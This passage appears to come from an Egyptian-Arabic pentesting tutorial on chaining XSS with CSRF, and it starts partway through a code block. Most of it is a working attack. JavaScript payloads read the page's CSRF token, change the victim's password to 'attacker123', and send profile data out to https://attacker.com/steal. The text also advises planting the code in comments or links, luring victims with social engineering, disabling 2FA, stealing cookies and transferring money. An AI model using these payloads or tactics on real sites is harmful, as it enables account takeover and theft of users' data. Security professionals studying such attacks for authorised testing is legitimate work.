       // سرقة البيانات
      fetch('/api/user-profile').then(r=>r.text()).then(d=>fetch('https://attacker.com/steal?data='+encodeURIComponent(d)));
    </script>
    ```
  - الكود هيسيطر على الحساب بالكامل.

#### **الخلاصة بالعامية**:
XSS مع CSRF زي قنبلة. لو لقيت ثغرة XSS، حقن كود يعمل طلبات CSRF زي تغيير باسوورد، تحويل فلوس، أو سرقة بيانات. لو فيه Token، استخدم XSS عشان تسرقه. جرب كل حاجة زي تعطيل 2FA أو سرقة Cookies. حط الكود في تعليق أو رابط، ولما الضحية يشوفه، الحساب بتاعك.

---

### **5. نصائح للـ Pentester**
1. **ابحث عن XSS في كل مكان**:
   - فحّص التعليقات، النماذج، URLs، وحتى الـ Query Parameters.
2. **حدد الطلبات الحساسة**:
   - ركز على طلبات زي تغيير الباسوورد، الإيميل، أو تحويل فلوس.
3. **استخدم أدوات ذكية**:
   - Burp Suite وZAP بيساعدوك تلاقي XSS وتصمم هجمات CSRF.
4. **دمج مع Social Engineering**:
   - خلّي الضحية يشوف الكود (مثل تعليق أو رابط) بطريقة مقنعة.
5. **وثّق الثغرة**:
   - اعمل PoC يورّي إزاي نفذت طلب CSRF باستخدام XSS، وشرح التأثير (مثل سرقة الحساب).

---

### **الخلاصة النهائية بالعامية**:
XSS مع CSRF زي ما تكون داخل الموقع وبتعمل اللي عايزه. لو لقيت ثغرة XSS، حط كود JavaScript ينفذ طلبات CSRF زي تغيير باسوورد أو سرقة بيانات. لو فيه CSRF Token، سرقه بـ XSS. جرب كل حاجة حساسة زي تحويل فلوس، تعطيل 2FA، أو سرقة Cookies. استخدم Burp وZAP، وحط الكود في مكان الضحية يشوفه زي تعليق أو رابط. لو عايز تفاصيل أكتر عن أي سيناريو، قولي!

```html
<html>
  <body>
    <script>
      // استخراج CSRF Token (لو موجود)
      var token = document.querySelector('input[name="csrf_token"]')?.value || '';

      // تنفيذ طلب CSRF لتغيير كلمة السر
      var xhr1 = new XMLHttpRequest();
      xhr1.open('POST', '/change-password', true);
      xhr1.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr1.send('new_password=attacker123&csrf_token=' + token);

      // سرقة بيانات المستخدم
      var xhr2 = new XMLHttpRequest();
      xhr2.open('GET', '/api/user-profile', true);
      xhr2.onload = function() {
        fetch('https://attacker.com/steal?data=' + encodeURIComponent(xhr2.responseText));
      };
      xhr2.send();
    </script>
  </body>
</html>
```